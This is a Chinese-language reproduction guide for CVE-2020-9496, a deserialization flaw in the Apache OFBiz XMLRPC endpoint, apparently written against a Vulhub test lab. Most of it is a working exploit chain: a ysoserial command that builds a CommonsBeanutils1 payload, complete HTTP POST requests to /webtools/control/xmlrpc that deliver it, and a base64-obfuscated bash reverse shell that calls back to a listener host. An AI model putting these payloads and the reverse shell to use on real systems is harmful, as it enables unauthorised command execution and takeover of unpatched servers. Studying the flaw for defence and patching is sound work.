 # Apache OfBiz 反序列化命令执行漏洞CVE-2020-9496

## 漏洞描述

Apache OFBiz是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。 OFBiz最主要的特点是OFBiz提供了一整套的开发基于Java的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

其17.12.04版本之前的XMLRPC接口存在一处反序列化漏洞，攻击者利用这个漏洞可以在目标服务器上执行任意命令。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz
- https://github.com/dwisiswant0/CVE-2020-9496
- https://www.cnblogs.com/ph4nt0mer/p/13576739.html

## 环境搭建

Vulhub执行如下命令启动一个Apache OfBiz 17.12.01版本：

```
docker-compose up -d
```

在等待数分钟后，访问`https://your-ip:8443/myportal/control/main`查看到登录页面，说明环境已启动成功。

![image-20220228132653236](images/202202281326342.png)

## 漏洞复现

由于默认情况下没有报错信息，所以使用[参考链接2](https://github.com/dwisiswant0/CVE-2020-9496)中给出的方法无法正确判断漏洞是否存在，还是需要通过执行反序列化来复现漏洞。

使用[ysoserial](https://github.com/frohoff/ysoserial)的CommonsBeanutils1来生成Payload：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "touch /tmp/awesome_poc" | base64 | tr -d "\n"
```

![image-20220228134051709](images/202202281340980.png)

将base64后的payload替换并发送如下数据包：

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![image-20220228134410175](images/202202281344325.png)

进入容器中，可见`touch /tmp/awesome_poc`已成功执行：

![image-20220228134307506](images/202202281343563.png)

### 反弹shell

要进行两遍base64编码：

```
java -jar ysoserial.jar CommonsBeanutils1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMS4xMzIvMjI1OSAwPiYx}|{base64,-d}|{bash,-i}" | base64 | tr -d "\n"
```

发送数据包，在VPS上监听反弹shell：

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: 172.16.10.22:8443
Cookie: OFBiz.Visitor=10103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 2401

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[Base64 Payload Here]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

